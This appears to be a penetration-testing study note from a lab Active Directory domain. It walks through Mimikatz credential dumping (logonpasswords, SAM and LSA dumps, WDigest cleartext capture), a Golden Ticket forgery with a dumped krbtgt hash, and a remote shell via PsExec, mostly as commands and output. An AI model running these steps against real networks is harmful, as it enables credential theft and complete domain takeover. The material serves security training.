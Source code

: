 # Mimikatz

- Once we get Domain Admin we can use mimikatz to dump the creds
- Launch mimikatz from the target and run `privilege::debug` (will allow us to debug processes): 
  ```
  C:\Users\Administrator\Downloads>mimikatz.exe

    .#####.   mimikatz 2.2.0 (x86) #19041 Aug 10 2021 17:20:39
   .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
   ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
   ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
   '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

  mimikatz # privilege::debug
  Privilege '20' OK

  mimikatz #
  ```
- Can be useful on a compromised regular computer `sekurlsa::logonpasswords` we get NTLM (v1) hash and could try to use pass-the-hash.
  - With wdigest we can see passwords in cleartext (prior to win 7) after only deactivate so possible to reactivate it with mimikats and wait for somebody to log on.
  - Dump the sam `lsadump::sam` or `lsadump::sam /patch`
  - Dump lsa (Local Security Authority)  `lsadump::lsa /patch` we get ntlm hashes and try to crack them.
 

## Mimikatz - Golden Ticket Attack

- With a Golden ticket we can get access to any resource and system on the domain = complete access to the entire domain
 - `lsadump::lsa /inject /name:krbtgt`
    ```
    mimikatz # lsadump::lsa /inject /name:krbtgt
    Domain : MARVEL / S-1-5-21-1324315119-2624990979-1304259423

    RID  : 000001f6 (502)
    User : krbtgt

     * Primary
        NTLM : 0afd880b6c9c7207067f0e15dab634a9
        LM   :
      Hash NTLM: 0afd880b6c9c7207067f0e15dab634a9
        ntlm- 0: 0afd880b6c9c7207067f0e15dab634a9
        lm  - 0: 662f5b48c70e0c5211f72eabdcffcfa6

     * WDigest
      [STRIPPED]

     * Kerberos
        Default Salt : MARVEL.LOCALkrbtgt
        Credentials
          des_cbc_md5       : 074fc873e6c40157

     * Kerberos-Newer-Keys
        Default Salt : MARVEL.LOCALkrbtgt
        Default Iterations : 4096
        Credentials
          aes256_hmac       (4096) : e5755cc451bc84fbe6004005f363e0425838d134306ffb0cb3a2f323e02a8ac9
          aes128_hmac       (4096) : a14075bef6022520025c4054880073a2
          des_cbc_md5       (4096) : 074fc873e6c40157

     * NTLM-Strong-NTOWF
        Random Value : 97decc0bc95a167ce7ebc2dd728fb83a
    ```
- Take note of:
  - Domain SID: `S-1-5-21-1324315119-2624990979-1304259423`
  - NTLM Hash of krbtgt: `0afd880b6c9c7207067f0e15dab634a9`
- Pass the ticket: ` kerberos::golden /User:AnyDoesNotNeedToExist /domain:marvel.local /sid:S-1-5-21-1324315119-2624990979-1304259423 /krbtgt:0afd880b6c9c7207067f0e15dab634a9 /id:500 /ptt`
```
 mimikatz # kerberos::golden /User:AnyDoesNotNeedToExist /domain:marvel.local /sid:S-1-5-21-1324315119-2624990979-1304259423 /krbtgt:0afd880b6c9c7207067f0e15dab634a9 /id:500 /ptt
User      : AnyDoesNotNeedToExist
Domain    : marvel.local (MARVEL)
SID       : S-1-5-21-1324315119-2624990979-1304259423
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 0afd880b6c9c7207067f0e15dab634a9 - rc4_hmac_nt
Lifetime  : 2/12/2022 10:32:39 AM ; 2/10/2032 10:32:39 AM ; 2/10/2032 10:32:39 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'AnyDoesNotNeedToExist @ marvel.local' successfully submitted for current session
```
- Get a cmd prmpt using the session and golden ticket `misc::cmd`
- We can access to anything on the network:
  ```
  C:\Users\Administrator\Downloads>dir \\THEDEFENDER\c$
   Volume in drive \\THEDEFENDER\c$ has no label.
   Volume Serial Number is 22E3-F05A

   Directory of \\THEDEFENDER\c$

  12/07/2019  01:14 AM    <DIR>          PerfLogs
  01/28/2022  02:29 PM    <DIR>          Program Files
  10/06/2021  05:58 AM    <DIR>          Program Files (x86)
  01/28/2022  04:33 PM    <DIR>          Share
  02/12/2022  05:34 AM    <DIR>          Users
  02/04/2022  01:19 PM    <DIR>          Windows
                 0 File(s)              0 bytes
                 6 Dir(s)  42,889,506,816 bytes free

  C:\Users\Administrator\Downloads>
  ```
- We can then use [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) to get a shell on a machine from the network 
  - We download psexec on our compromised machine
  - We get the shell 
    ```
    C:\Users\Administrator\Downloads\PSTools>PsExec.exe \\THEDEFENDER cmd.exe

    PsExec v2.34 - Execute processes remotely
    Copyright (C) 2001-2021 Mark Russinovich
    Sysinternals - www.sysinternals.com


    Microsoft Windows [Version 10.0.19044.1288]
    (c) Microsoft Corporation. All rights reserved.

    C:\Windows\system32>hostname
    THEDEFENDER
    ```

## Mimikatz - Resources

{% embed url="https://github.com/gentilkiwi/mimikatz" %} Mimikatz {% endembed %}
{% embed url="https://github.com/gentilkiwi/mimikatz/wiki" %} Mimikatz - Wiki {% endembed %}
